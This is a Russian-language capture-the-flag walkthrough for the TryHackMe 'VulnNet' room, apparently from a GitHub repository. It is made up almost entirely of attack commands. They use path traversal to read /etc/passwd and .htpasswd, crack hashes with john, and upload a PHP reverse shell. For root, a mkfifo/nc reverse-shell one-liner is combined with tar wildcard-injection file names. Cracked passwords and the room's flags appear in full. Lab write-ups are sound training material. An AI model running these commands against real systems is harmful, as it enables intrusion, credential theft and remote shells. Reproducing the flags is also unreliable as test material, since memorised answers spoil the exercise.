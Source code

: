 [>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)

# Комната [VulnNet](https://tryhackme.com/r/room/vulnnet1) 

Всего 1 заданиe:
## Задание 1
Цель этого задания — использовать более реалистичные приемы и объединить их в одном устройстве для отработки навыков.

Уровень сложности: средний
Язык веб-сайта: PHP => Вам придется добавить IP-адрес машины с доменом vulnnet.thm в ваш `/etc/hosts`

Иконка сделана пользователем monkik с сайта www.flaticon.com

### Ответьте на вопросы ниже
Что такое флаг пользователя? (user.txt)
```commandline
echo "<IP> vulnnet.thm" | sudo tee -a /etc/hosts
nmap -sSCV vulnnet.thm
echo "<IP> broadcast.vulnnet.thm" | sudo tee -a /etc/hosts
curl -s http://vulnnet.thm/?referer=/etc/passwd 
curl -s http://vulnnet.thm/?referer=/etc/apache2/sites-enabled/000-default.conf
curl -s http://vulnnet.thm/?referer=/etc/apache2/.htpasswd
# developers:$apr1$ntOz2ERF$Sd6FT8YVTValWjL7bJv0P0
john auth.hash --wordlist=/usr/share/wordlists/rockyou.txt
# developers:9972761drmfsls
searchsploit clipbucket 4.0
curl -F "file=@rev.php" -F "plupload=1" -F "name=rev.php" "http://developers:9972761drmfsls@broadcast.vulnnet.thm/actions/beats_uploader.php"
nc -nlvp 4444
find / -type f -user server-management -exec ls -l {} + 2>/dev/null
ssh2john.py id_rsa > ssh.hash
john ssh.hash --wordlist=/usr/share/wordlists/rockyou.txt
# id_rsa:oneTWO3gOyac
ssh -i id_rsa server-management@vulnnet.thm
cat user.txt
```
```commandline
THM{907e420d979d8e2992f3d7e16bee1e8b}
```
Что такое корневой флаг? (root.txt)
```commandline
cat /etc/crontab
cd /var/opt/
ls -la
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <my_own_IP> 4444 >/tmp/f" > /home/server-management/Documents/rev.sh
touch "/home/server-management/Documents/--checkpoint=1"
touch "/home/server-management/Documents/--checkpoint-action=exec=sh rev.sh"
nc -nlvp 4444
cat /root/root.txt
```
```commandline
THM{220b671dd8adc301b34c2738ee8295ba}
```

[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)